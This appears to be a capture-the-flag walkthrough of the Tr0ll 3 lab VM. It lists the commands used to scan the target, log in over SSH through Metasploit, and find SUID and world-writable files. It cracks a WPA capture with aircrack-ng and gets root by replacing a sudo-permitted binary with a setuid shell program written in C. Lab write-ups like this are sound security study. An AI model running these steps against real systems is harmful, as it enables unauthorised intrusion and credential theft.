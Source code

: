 # Tr0ll 3

![](https://i.imgur.com/ZJsk51j.png)

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/pvHUx81.png)
Victim is `192.168.227.135`
`nmap -sS -sV -A -p- -oN NmapTr0llLv3.txt 192.168.227.135`
![](https://i.imgur.com/YB2vQRw.png)
There's only OpenSSH opened, which without any useful exploit vuln.

I don't like this start entry, but we have no choice to use the info print out on terminal of Tr0ll3: `start:here`

```
msfconsole
search ssh
```
![](https://i.imgur.com/mKwXNlN.png)

```
use auxiliary/scanner/ssh/ssh_login
show options
set USERNAME start
set PASSWORD here
set RHOSTS 192.168.227.135
exploit
```
![](https://i.imgur.com/VFs8drk.png)
Once get the shell, upgrade to meterpreter, which suport a lot command make exploit more easier.

There's two files under home folder.
One is useless shorten URL.
![](https://i.imgur.com/PpmkULG.png)
Another one seems a AC/PW
![](https://i.imgur.com/3PzIaov.png)
But seems not work at all.
![](https://i.imgur.com/jlRLdvk.png)

Switch to shell mode by `shell` command to use `find`.
Checking for files where SUID bit is set:
`find / -perm -g=s -o -perm -4000 -exec ls -ld {} \; 2>/dev/null`
http://man7.org/linux/man-pages/man1/find.1.html
> * -perm -mode : All of the permission bits mode are set for the file.
> * g=s : The letter s denotes that the setuid (or setgid, depending on the column) bit is set. When an executable is setuid, it runs as the user who owns the executable file instead of the user who invoked the program.
> * -o : or
> * 4000 : SUID.
> * ! expr True if expr is false.  This character will also usually need protection from interpretation by the shell.
> * {} : expands to the filename of each file or directory found.
> * \; : end -exec command.

![](https://i.imgur.com/CxNnTWJ.png)
Nothing special.

`find / -perm 777 -type f -exec ls -ld {} \; 2>/dev/null`
![](https://i.imgur.com/VJZOxiD.png)
```
-rwxrwxrwx 1 root root 49962 Aug  2  2019 /var/log/.dist-manage/wytshadow.cap
-rwxrwxrwx 1 eagle russ 35737600 Aug  2  2019 /.hints/lol/rofl/roflmao/this/isnt/gonna/stop/anytime/soon/still/going/lol/annoyed/almost/there/jk/no/seriously/last/one/rofl/ok/ill/stop/however/this/is/fun/ok/here/rofl/sorry/you/made/it/gold_star.txt
exit
```
back to meterpreter:
```
download /var/log/.dist-manage/wytshadow.cap /root/
dowdnload /.hints/lol/rofl/roflmao/this/isnt/gonna/stop/anytime/soon/still/going/lol/annoyed/almost/there/jk/no/seriously/last/one/rofl/ok/ill/stop/however/this/is/fun/ok/here/rofl/sorry/you/made/it/gold_star.txt /root/
```
![](https://i.imgur.com/QRZvWPj.png)

`wytshadow.cap` contain whole 802.11 protocal communication pakages.
![](https://i.imgur.com/3VCwDeZ.png)

`gold_star.txt` seems like a wordlist to crack the WPA-PSK pcap `wytshadow.cap`.
![](https://i.imgur.com/sC8q7sx.png)

Let's use `aircrack` to crack this.
`aircrack-ng -w gold_star.txt wytshadow.cap`

![](https://i.imgur.com/8aDAcC1.png)
Got it, the password is `gaUoCe34t1`, let's use it to ssh to machine.
![](https://i.imgur.com/YiRYYTj.png)
The username might be `wytshadow`.

![](https://i.imgur.com/QvFuRP7.png)
We in, 

![](https://i.imgur.com/OXDSVWN.png)
I'm carzy like a lyn, Lynx is a customizable text-based web browser for use on cursor-addressable character cell terminals.
https://zh.wikipedia.org/wiki/Lynx

So, let's find some default command to setup a web service.
`sudo -l`
![](https://i.imgur.com/pz5nhwc.png)

Okay, here we got `(root) /usr/sbin/service nginx start` with root privilege.

Let's see, before exec a web service, check `netstat` will help you more quickly to target the new service.
`netstat -antp`
![](https://i.imgur.com/CrsymS6.png)

Now we start the service: `sudo service nginx start`
![](https://i.imgur.com/yBCin0u.png)

Service on 8080 is new service.
![](https://i.imgur.com/Io0FTev.png)
This service is public, but something behind it block the access.
![](https://i.imgur.com/X11s8PW.png)

After check the setting in `nginx`, we founded that User-Agent is limited to only `LYNX`.
![](https://i.imgur.com/qBM4XVt.png)

Let's download `LYNX`: `apt install LYNX` on Host.
`lynx http://192.168.227.135:8080`
![](https://i.imgur.com/AN6Q1pg.png)

Here we got `genphlux:HF9nd0cR!`
Now change the user account to `genphlux`
![](https://i.imgur.com/bcXxRyV.png)

Back to `genphlux`'s home, we found two file here.
![](https://i.imgur.com/M3QZxx2.png)

`xlogin` hint me to open a apache service.
![](https://i.imgur.com/AUSox7S.png)
Then we use sudo to start the apache2.
![](https://i.imgur.com/uOu3i9E.png)
What's on the port 80?
![](https://i.imgur.com/KZN5W1y.png)
Let's see what's wrong this time.
![](https://i.imgur.com/gqy1KOY.png)
I cannot find any clue to access the Web page, maybe use RSA key as crt to make HTTPS request?

`maleus` is a RSA key. First, we try to connect ssh with this key.
![](https://i.imgur.com/Uhm9wHa.png)
Copy and paste to Host.
On Host shell,
```
chmod 600 maleus
ssh maleus@192.168.1.104 -i maleus
```
![](https://i.imgur.com/4SN7eVf.png)

Now we see there's binary `dont_even_bother` here.
![](https://i.imgur.com/cDStqh1.png)

According to past work, `sudo -l` might contain message, but we need to find a password first.

After all, I found something in the `.viminfo`

> The **vimrc** is the file you edit to change vim's behavior. It is a the configuration file.
> The **viminfo** is like a cache, to store cut buffers persistently, and other things
> The **viminfo** file is used to store:
> - The command line history.
> - The search string history.
> - The input-line history.
> - Contents of non-empty registers.
> - Marks for several files.
> - File marks, pointing to locations in files.
> - Last search/substitute pattern (for 'n' and '&').
> - The buffer list.
> - Global variables.

![](https://i.imgur.com/znPva3V.png)
We found the password: `B^slc8I$`

Let's use it to check `sudo -l`
![](https://i.imgur.com/bq719zu.png)

Now, we know that `maleus` can use sudo to exec any file named `dont_even_bother`, which is own by `maleus`, so `maleus` can simply replace it.
```c
int main (void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}
```
![](https://i.imgur.com/IZxu0ZY.png)
Compile the c source and replace the `dont_even_bother` with output.

`cd` to `/root` and `cat` the `flag.txt`.
![](https://i.imgur.com/4UwBoZU.png)

## Failed

According to Linux version is `Linux 4.15.0-55-generic`, I try some exploit at first, but either of them work.
![](https://i.imgur.com/jCh1VKC.png)

https://www.exploit-db.com/exploits/47165
![](https://i.imgur.com/JGBOh0F.png)

https://www.exploit-db.com/exploits/47163
![](https://i.imgur.com/ABSQ8FY.png)
